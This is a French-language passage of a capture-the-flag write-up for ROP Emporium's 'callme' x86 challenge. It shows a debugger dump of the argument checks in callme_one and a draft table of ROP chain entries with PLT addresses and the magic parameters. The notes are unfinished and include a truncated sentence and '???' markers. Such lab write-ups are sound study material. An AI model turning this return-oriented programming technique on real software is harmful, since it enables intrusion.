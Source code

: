 Avançons jusqu'à la comparaison.

    0xffa3fb14│+0x0000: 0x41414141	 ← $esp
    0xffa3fb18│+0x0004: 0xf7fe78f0  →   pop edx
    0xffa3fb1c│+0x0008: 0xffffffff
    0xffa3fb20│+0x000c: 0xf7fc663d  →  <callme_one+0> push ebp
    0xffa3fb24│+0x0010: 0x00000b
    0xffa3fb28│+0x0014: 0x00000000
    0xffa3fb2c│+0x0018: 0x41414141	 ← $ebp
    0xffa3fb30│+0x001c: 0xdeadbeef
    ───────────────────────────────────────────────────────────── code:x86:32 ────
    0xf7fc6641 <callme_one+4>   sub    esp, 0x14
    0xf7fc6644 <callme_one+7>   call   0xf7fc6540 <__x86.get_pc_thunk.bx>
    0xf7fc6649 <callme_one+12>  add    ebx, 0x19b7
    → 0xf7fc664f <callme_one+18>  cmp    DWORD PTR [ebp+0x8], 0xdeadbeef
    0xf7fc6656 <callme_one+25>  jne    0xf7fc6733 <callme_one+246>
    0xf7fc665c <callme_one+31>  cmp    DWORD PTR [ebp+0xc], 0xcafebabe
    0xf7fc6663 <callme_one+38>  jne    0xf7fc6733 <callme_one+246>
    0xf7fc6669 <callme_one+44>  cmp    DWORD PTR [ebp+0x10], 0xd00df00d
    0xf7fc6670 <callme_one+51>  jne    0xf7fc6733 <callme_one+246>

On voit que est en ebp+4 et

    x/1x $ebp+8
    0xffa3fb34:	0xcafebabe

La valeur est comparée avec le second paramètre.

Il nous faut donc placer une adresse de retour

Envisagons de mettre callme_two a cette adresse pour continuer le traiement attendu.

| ROP entry | comment |
| ----------- | ------- |
| 0x80484f0  | callme_one@plt |
| 0x0804876f | callme_two@plt |
| 0xdeadbeef | param1 |
| 0xcafebabe | param2 |
| 0xd00df00d | param3 |
???

On va probablement executer correctement callme_one puis sauter sur callme_two mais rencontrer le même problème que précédement.
On ne peut pas rejouter callme_three qui serait pris comme premier paramètre par callme_one

essai :


    callme by ROP Emporium
    x86

    Hope you read the instructions...
